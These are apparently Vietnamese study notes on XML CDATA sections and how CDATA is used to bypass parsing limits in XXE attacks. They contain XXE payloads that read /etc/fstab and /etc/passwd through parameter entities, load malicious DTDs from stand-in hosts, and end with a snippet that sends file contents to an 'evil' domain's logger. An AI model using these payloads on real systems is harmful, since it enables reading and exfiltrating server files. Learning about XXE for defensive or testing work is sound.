



## CDATA
- Khái niệm CDATA nghĩa là dữ liệu ký tự (Character Data). CDATA được định nghĩa như là các khối text mà không được phân tích bởi Parser, nhưng được nhận ra khi đánh dấu.
- Trong XML, CDATA là một phần của cú pháp được sử dụng để chỉ định văn bản có chứa dữ liệu không nên được phân tích bởi trình phân tích cú pháp XML. CDATA giúp tránh xung đột với các ký tự đặc biệt hoặc cú pháp XML bên trong nội dung văn bản.




- Cú pháp của khu vực CDATA trong XML là:

```
<![CDATA[
   // bất kì kí tự
]]>
```

- Cú pháp trên bao gồm ba phần:

+ Phần bắt đầu CDATA - CDATA bắt đầu với một delimiter gồm 9 ký tự <![CDATA[
+ Phần kết thúc CADTA - Khu vực CDATA kết thúc với delimiter là ]]>.
+ Khu vực CDATA - Các ký tự ở giữa hai phần trên được thông dịch như là các ký tự, không đánh dấu. Khu vực này có thể chứa các ký tự đánh dấu (như <, >, và &), nhưng chúng được bỏ qua bởi XML Processor.


- Qui tắc cho CDATA trong XML:
- Một số qui tắc sau là bắt buộc khi sử dụng CDATA trong XML:

+ CDATA không thể chứa chuỗi "]]>" ở bất cứ đâu trong tài liệu XML.
+ Việc lồng là không được cho phép trong khu vực CDATA. có nghĩa là chỉ có 1 tag duy nhất

- 
- 

- Tác dụng:
Bảo vệ dữ liệu không bị phân tích sai: Khi một phần của nội dung XML chứa các ký tự đặc biệt như dấu "<" hoặc "&", trình phân tích cú pháp XML có thể hiểu nhầm và xử lý chúng như phần của cú pháp XML thay vì dữ liệu. Sử dụng CDATA giúp tránh điều này bằng cách bảo vệ các phần của văn bản không nên được phân tích.

Giữ nguyên dữ liệu gốc: Khi dữ liệu XML chứa các đoạn mã hoặc ngôn ngữ khác như JavaScript hoặc HTML, sử dụng CDATA giúp giữ nguyên đoạn mã mà không cần phải thay đổi chúng để phù hợp với cú pháp XML.

Dễ dàng bảo trì và sửa chữa: Khi sử dụng CDATA, dữ liệu bên trong không bị thay đổi, điều này làm cho việc bảo trì và sửa chữa dữ liệu dễ dàng hơn, đặc biệt là khi dữ liệu chứa các ký tự đặc biệt hoặc mã phức tạp.

### Bypass XXE with CDATA

- Trong một số trường hợp, dữ liệu mình muốn truy xuất sẽ có các ký tự làm hỏng quá trình phân tích cú pháp XML. Chúng ta có thể sử dụng CDATA để vượt qua giới hạn này. CDATA yêu cầu trình phân tích cú pháp XML bỏ qua nội dung trong dấu ngoặc. Ví dụ đơn giản:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY start "<![CDATA[">
  <!ENTITY content "file:///some/path/some/file.txt">
  <!ENTITY end "]]>">
]>

<name>&start; &content; &end;</name>


```

- Nhưng điều này sẽ thất bại vì nó vi phạm Quy tắc thực thể chung số 2:

- Thực thể chung phải chứa dữ liệu mà trình phân tích cú pháp XML có thể phân tích cú pháp (ví dụ: <blah>sẽ không được phép vì không có </blah>thẻ đóng.)

- Để sử dụng thành công CDATA nhằm truy xuất dữ liệu có thể gây ra sự cố với trình phân tích cú pháp XML, chúng ta cần tạo bốn Thực thể Tham số:

+ Parameter Entity đầu tiên sẽ là nội dung file chúng ta muốn đọc.
+ Sau đó, chúng tôi sẽ đặt một giá trị khác bằng với điểm bắt đầu chuỗi CDATA của chúng tôi.
Cái thứ ba sẽ được đặt ở cuối chuỗi CDATA.
+ Và cuối cùng, phần thứ tư sẽ chứa Thực thể chung sẽ gắn kết tất cả những thứ đó lại với nhau.

<!ENTITY % file SYSTEM "file:///some/path/some/file.txt">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
- Với DTD bên ngoài được lưu trữ, chúng tôi có thể sử dụng nó trong quá trình khai thác:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
  <!ENTITY % ext SYSTEM "http://ourserver.com/cdata.dtd">
  %ext;
]>

<name>&all;</name>
```

- Bằng cách kết hợp các thực thể tham số và CDATAthẻ, kẻ tấn công có thể tạo một DTD độc hại được lưu trữ trên bad.example.com/evil.dtd :

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents 
'%start;%file;%end;'>">
```


## Những kí tự CDATA không bị escape:
- Trong XML, CDATA bắt đầu với dấu mở CDATA <![CDATA[ và kết thúc với dấu đóng CDATA ]]>. Bất kỳ văn bản nằm giữa hai dấu này sẽ được coi là dữ liệu ký tự và sẽ không bị phân tích cú pháp XML. Điều này cho phép bạn bao gồm các ký tự đặc biệt như <, >, &, mà không cần phải escape chúng.

- ví dụ:
```
<![CDATA[This is some <b>bold</b> text.]]>

```


<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///etc/paswd">
<!ENTITY % print "<!ENTITY send SYSTEM 'http://my-evil-
domain.$$$$/rotem/klogger/logger.php?c=%file; ">">
%print;
